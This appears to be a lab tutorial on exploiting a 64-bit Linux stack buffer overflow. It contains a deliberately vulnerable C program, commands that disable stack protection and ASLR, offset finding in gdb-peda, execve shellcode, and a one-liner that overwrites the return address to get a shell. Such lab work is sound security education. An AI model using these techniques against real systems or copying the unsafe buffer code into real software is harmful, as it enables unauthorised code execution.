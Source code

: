 # 64-bit Stack-based Buffer Overflow

The purpose of this lab is to understand how to get control of the RIP register when dealing with classic stack-based buffer overflow vulnerabilities in x64 bit Linux systems.

This lab is based on a great post [https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/](https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/) and the code is borrowed from the same.

{% hint style="info" %}
Note that the vulnerable program is deliberately compiled without memory protections and the ASLR on Linux must be disabled for the lab to work.
{% endhint %}

See related notes:

{% page-ref page="../../../miscellaneous-reversing-forensics/windows-kernel-internals/linux-x64-calling-convention-stack-frame.md" %}

## Vulnerable Code

In this lab, we're going to be using the below vulnerable program:

{% tabs %}
{% tab title="vulnerable.c" %}
```c
// code from https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/

#include <stdio.h>
#include <unistd.h>

int vuln() {
    char buf[80];
    int r;
    r = read(0, buf, 400);
    printf("\nRead %d bytes. buf is %s\n", r, buf);
    puts("No shell for you :(");
    return 0;
}

int main(int argc, char *argv[]) {
    printf("Try to exec /bin/sh");
    vuln();
    return 0;
}
```
{% endtab %}
{% endtabs %}

We can compile the above code with:

```python
gcc -fno-stack-protector -z execstack vulnerable.c -o vulnerable
```

{% hint style="warning" %}
Don't forget to disable the ASLR:

```text
echo 0 > /proc/sys/kernel/randomize_va_space  
```
{% endhint %}

## Getting Control of RIP

Let's try overflow the program by sending some garbage to it. First of, let's generate the said garbage data - 200  AAAAs...:

```python
python -c "print 'A'*200" > in.bin
```

Let's now run the vulnerable program, feed the garbage file to it and observe what happens:

```python
gdb vulnerable
r < in.bin
```

![Vulnerable program crashes when the garbage is fed to it, but the RIP is not overwritten](../../../.gitbook/assets/image%20%28899%29.png)

Note from the above screenshot the following key aspects:

* The stack has been overflowed with As \(lime\);
* RIP register has not been overflowed although it would have been, had this been a 32-bit binary. On the same note, we can indeed see that the return address \(RSP + 0 as `ret` instruction will pop this value and jump to it\) has been filled with As, so why are we not in control of the RIP register?

### Why is RIP not overflowed?

The reason RIP was not overflowed \(technically it was, as we saw in the above screenshot\), is because the `AAAAAAAA` \(`0x4141414141414141`\) is not a canonical memory address, or, in other words, `0x4141414141414141` is a 64-bit wide address that current CPUs do not support. The highest memory that programs can address is 48-bit wide addresses that are capped at `0x00007FFFFFFFFFFF` - this is to prevent complexity in memory address translations that would not provide much benefit to the OSes or applications as it's very unlikely they would ever need to use all of the 64-bit address space. 

### Controlling RIP

Knowing about canonical addresses, we could take control of the RIP if the 64-bit wide address `0x4141414141414141` \(our garbage data\) was translated to a 48-bit canonical address by masking off the 2 highest bytes:

```python
// WinDBG
0:000> ? 0x4141414141414141 & 0x00007FFFFFFFFFFF
Evaluate expression: 71748523475265 = 00004141`41414141
```

Leaving us a canonical address:

$$
0x0000414141414141
$$

Let's see if we can make the program crash and make the RIP point to `0x0000414141414141`. Before we can do this, we need to find out how much garbage As we need to send in before we can place `0x0000414141414141` onto the stack, so that we can take over the RIP.

In gdb \(with peda\), let's create a pattern of 200 characters:

```python
gdb-peda$ pattern_create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
```

...and feed that pattern to the vulnerable program, observe the crash, and find the offset where we should place our preferred RIP value:

![RIP offset is 104](../../../.gitbook/assets/image%20%28876%29.png)

From the above screenshot, we can see that our pattern `A7AAMAAiA...` is visible at the top of the stack -  this value would be popped from the stack and jumped to by the `ret` instruction and we are interested in knowing how deep in the stack it is. To work it out, we can use another gdb-peda command like so:

```python
gdb-peda$ pattern_offset A7AAMAAiA
A7AAMAAiA found at offset: 104
```

We can now see that the offset of interest is 104, so let's test it by generating a new garbage file:

```python
python -c "print 'A'*104 + '\x41\x41\x41\x41\x41\x41\x00\x00'" > in.bin
```

Note that our garbage data will now contain 104 As and a canonical return address `0x0000414141414141` \(in reverse due to little-endianness\). Sending this data to the vulnerable program reveals that we have now taken control of the RIP register:

![We can now control RIP](../../../.gitbook/assets/image%20%28888%29.png)

## Exploitation

We'd like the vulnerable program to spawn a shell for us when exploited, so we will place the [shellcode](http://shell-storm.org/shellcode/files/shellcode-806.php) in the environment variable `PWN` like so:

```python
export PWN=`python -c 'print "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"'`
```

We now need to find the stack address in the vulnerable program where the PWN environment variable will be located. For this, we can use the following program:

{% tabs %}
{% tab title="getenvvar.c" %}
```cpp
// code by Jon Erickson, page 147 and 148 of Hacking: The Art of Exploitation, 2nd Edition
// compile: gcc getenvvar.c -o getenvvar
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
	char *ptr;

	if(argc < 3) {
		printf("Usage: %s <environment variable> <target program name>\n", argv[0]);
		exit(0);
	}
	ptr = getenv(argv[1]); /* get env var location */
	ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* adjust for program name */
	printf("%s will be at %p\n", argv[1], ptr);
}
```
{% endtab %}
{% endtabs %}

Run it like so:

```python
./getenvvar PWN ./vulnerable
```

...to learn that `PWN` environment variable will be on the stack at `0x7fffffffefa8`:

![PWN environment variable location on stack in the vulnerable program](../../../.gitbook/assets/image%20%28880%29.png)

Let's now convert `0x7fffffffefa8` to its canonical \(2 highest bytes masked off\) form, which equals to `0x0000ffffefa8`. We can now try to exploit the vulnerable program by sending the garbage data that now includes the `PWN` environment variable address as the return address at offset 104 like so:

```python
(python -c "print 'A'*104 + '\xa8\xef\xff\xff\xff\x7f\x00\x00'"; cat) | ./vulnerable
```

![Vulnerable program is exploited and results in a new shell](../../../.gitbook/assets/x64-stack-overflow.gif)

To confirm the exploit worked as expected, we can `unset` the `PWN` environment variable and try to exploit the program again - we will see the program crash, since it no longer has no shellcode to execute:

![Exploit no longer works since shellcode is gone from the PWN environment variable](../../../.gitbook/assets/image%20%28879%29.png)

## References

{% embed url="https://www.ret2rop.com/2018/08/stack-based-buffer-overflow-x64.html" %}

{% embed url="https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/" %}

{% embed url="https://medium.com/@\_neerajpal/explained-difference-between-x86-x64-disassembly-49e9678e1ae2" %}

[https://www.cs.tufts.edu/comp/40/docs/x64\_cheatsheet.pdf](https://www.cs.tufts.edu/comp/40/docs/x64_cheatsheet.pdf)

